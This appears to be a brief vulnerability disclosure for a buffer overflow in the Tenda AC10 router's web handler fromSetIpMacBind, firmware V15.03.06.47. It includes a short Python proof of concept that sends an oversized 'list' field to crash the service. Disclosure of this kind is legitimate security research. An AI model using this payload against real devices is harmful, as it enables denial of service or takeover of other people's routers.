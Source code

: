 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](15.png)

get value from list ,and pass to list, if new_static_num between 0-33, call strcpy, cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/fromSetIpMacBind"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload, 'bindnum': 1})
``` 

